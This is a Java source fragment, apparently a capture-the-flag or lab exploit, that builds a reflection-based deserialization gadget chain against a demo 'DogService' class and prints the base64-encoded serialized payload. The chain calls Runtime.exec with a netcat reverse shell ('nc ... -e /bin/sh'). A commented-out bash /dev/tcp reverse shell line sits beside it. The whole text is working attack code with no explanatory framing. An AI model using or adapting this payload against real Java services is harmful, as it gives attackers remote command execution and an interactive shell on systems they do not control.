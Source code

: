 ```java
    }

    private static void setDogField(Dog d, String name, Object value) {
        try {
            Field f = Dog.class.getDeclaredField(name);
            f.setAccessible(true);
            f.set(d, value);
        } catch (Exception e) {
            throw new RuntimeException(e);
        }
    }

    private static Dog makeDog(int id, Object obj, String method, Class<?>[] types, Object[] args) {
        Dog d = new Dog(id, "d" + id, "cat", 114514);
        setDogField(d, "object", obj);
        setDogField(d, "methodName", method);
        setDogField(d, "paramTypes", types);
        setDogField(d, "args", args);
        return d;
    }

    public static void main(String[] args) throws Exception {
        // String[] rsCmd = new String[]{"bash", "-c", "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"};
        String[] rsCmd = new String[]{"nc", "127.0.0.1", "5000", "-e", "/bin/sh"};

        // 4-step reflective chain executed by DogService.chainWagTail()
        Dog d1 = makeDog(1, Class.class, "forName",
                new Class<?>[]{String.class}, new Object[]{"java.lang.Runtime"});
        Dog d2 = makeDog(2, null, "getMethod",
                new Class<?>[]{String.class, Class[].class}, new Object[]{"getRuntime", new Class[] {}});
        Dog d3 = makeDog(3, null, "invoke",
                new Class<?>[]{Object.class, Object[].class}, new Object[]{null, new Object[] {}});
        Dog d4 = makeDog(4, null, "exec",
                new Class<?>[]{String[].class}, new Object[]{rsCmd});

        Map<Integer, Dog> chain = new LinkedHashMap<>();
        chain.put(1, d1);
        chain.put(2, d2);
        chain.put(3, d3);
        chain.put(4, d4);

        // Embed the chain into a fresh DogService instance
        Class<?> svcCls = Class.forName("com.example.demo.Dog.DogService");
        Object svc = svcCls.getDeclaredConstructor().newInstance();
        Field fDogs = svcCls.getDeclaredField("dogs");
        fDogs.setAccessible(true);
        fDogs.set(svc, chain);

        // Trigger Dog: hashCode() -> wagTail(svc, "chainWagTail", ...) during HashSet deserialization
        Dog trigger = makeDog(0, svc, "chainWagTail", new Class<?>[]{}, new Object[]{});
        HashSet<Dog> set = new HashSet<>();
        set.add(trigger);

        System.out.println(b64(set));
    }
}
```

